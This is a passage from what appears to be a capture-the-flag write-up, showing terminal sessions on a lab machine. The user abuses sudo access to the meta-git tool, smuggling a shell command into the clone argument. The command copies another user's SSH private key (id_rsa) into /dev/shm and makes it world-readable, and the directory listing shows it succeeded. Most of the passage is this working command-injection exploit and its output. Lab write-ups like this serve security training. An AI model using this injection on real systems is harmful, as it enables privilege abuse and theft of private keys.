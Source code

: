 ```
    at bootstrapNodeJSCore (internal/bootstrap/node.js:623:3)
(node:8010) UnhandledPromiseRejectionWarning: Unhandled promise rejection. This error originated either by throwing inside of an async function without a catch block, or by rejecting a promise which was not handled with .catch(). (rejection id: 1)
(node:8010) [DEP0018] DeprecationWarning: Unhandled promise rejections are deprecated. In the future, promise rejections that are not handled will terminate the Node.js process with a non-zero exit code.

gbyolo@faculty:/dev/shm$ ls -al
total 0
drwxrwxrwt  3 root      root       100 Aug 26 11:00 .
drwxr-xr-x 18 root      root      3940 Aug 26 08:00 ..
-rw-rw-r--  1 developer developer    0 Aug 26 11:00 exploit.se
drwx------  4 root      root        80 Aug 26 08:00 multipath
-rw-rw-r--  1 developer developer    0 Aug 26 11:00 test
```

Now weaponize and steal `id_rsa`:
```bash
gbyolo@faculty:/dev/shm$ sudo -u developer /usr/local/bin/meta-git clone 'exploit.se||cp /home/developer/.ssh/id_rsa . && chmod 777 id_rsa'
meta git cloning into 'exploit.se||cp /home/developer/.ssh/id_rsa . && chmod 777 id_rsa' at id_rsa . && chmod 777 id_rsa

id_rsa . && chmod 777 id_rsa:
fatal: destination path 'exploit.se' already exists and is not an empty directory.
chmod: changing permissions of '.': Operation not permitted
id_rsa . && chmod 777 id_rsa: command 'git clone exploit.se||cp /home/developer/.ssh/id_rsa . && chmod 777 id_rsa id_rsa . && chmod 777 id_rsa' exited with error: Error: Command failed: git clone exploit.se||cp /home/developer/.ssh/id_rsa . && chmod 777 id_rsa id_rsa . && chmod 777 id_rsa
(node:8146) UnhandledPromiseRejectionWarning: Error: ENOENT: no such file or directory, chdir '/dev/shm/id_rsa . && chmod 777 id_rsa'
    at process.chdir (internal/process/main_thread_only.js:31:12)
    at exec (/usr/local/lib/node_modules/meta-git/bin/meta-git-clone:27:11)
    at execPromise.then.catch.errorMessage (/usr/local/lib/node_modules/meta-git/node_modules/meta-exec/index.js:104:22)
    at process._tickCallback (internal/process/next_tick.js:68:7)
    at Function.Module.runMain (internal/modules/cjs/loader.js:834:11)
    at startup (internal/bootstrap/node.js:283:19)
    at bootstrapNodeJSCore (internal/bootstrap/node.js:623:3)
(node:8146) UnhandledPromiseRejectionWarning: Unhandled promise rejection. This error originated either by throwing inside of an async function without a catch block, or by rejecting a promise which was not handled with .catch(). (rejection id: 2)
(node:8146) [DEP0018] DeprecationWarning: Unhandled promise rejections are deprecated. In the future, promise rejections that are not handled will terminate the Node.js process with a non-zero exit code.

gbyolo@faculty:/dev/shm$ ls -al
total 4
drwxrwxrwt  3 root      root       120 Aug 26 11:03 .
drwxr-xr-x 18 root      root      3940 Aug 26 08:00 ..
-rw-rw-r--  1 developer developer    0 Aug 26 11:00 exploit.se
-rwxrwxrwx  1 developer developer 2602 Aug 26 11:03 id_rsa
drwx------  4 root      root        80 Aug 26 08:00 multipath
-rw-rw-r--  1 developer developer    0 Aug 26 11:00 test
```
